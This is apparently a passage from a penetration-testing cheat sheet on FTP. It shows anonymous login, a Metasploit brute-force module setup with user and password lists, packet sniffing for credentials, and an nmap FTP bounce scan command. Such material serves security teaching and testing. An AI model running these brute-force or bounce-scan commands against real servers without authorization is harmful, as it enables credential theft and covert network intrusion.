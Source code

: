 ```bash
$ ftp $IP $PORT
Name: anonymous
Password: 
ftp> ls -a # List all files (even hidden) (yes, they could be hidden)
ftp> ...
```

## Attacks

### Brute force

```bash
msfconsole
use auxiliary/scanner/ftp/ftp_login
set RHOSTS $IP
set RPORT $PORT
set USER_FILE $user.txt
set PASS_FILE $pass.txt
run
```

### FTP sniffing

If the FTP communications are not encrypted and if the attacker is on the same network of the client or the server he can sniff the data packet traveling between the client and the server in order to retrieve credential.

Several tools like `Wireshark` could be used to sniff TCP packets.

### FTP Bounce attacks

FTP Bounce attacks let an attacker requests access to ports by using the FTP command `PORT`. It's mostly used to make a port-scan without being detected (as you are not the one doing it, but the FTP server for you), for D.o.S. attacks, or to download files from another FTP server.

To check if the FTP server is vulnerable to Bounce attacks it is possible to use the tool `NMAP`.

> [!TIP]
> [https://nmap.org/nsedoc/scripts/ftp-bounce.html](https://nmap.org/nsedoc/scripts/ftp-bounce.html)

#### Scan the victim's network

If a FTP server is vulnerable to Bounce attacks, an attacker could use it to scan its network without being detected.

```bash
nmap -v -b -P0 'username':'password'@'ftp_server' 'address(es)_to_scan'
```

#### Download file/folder

If an attacker has access to a bounce FTP server, he can make it request files of other FTP server and download that file to his own server.
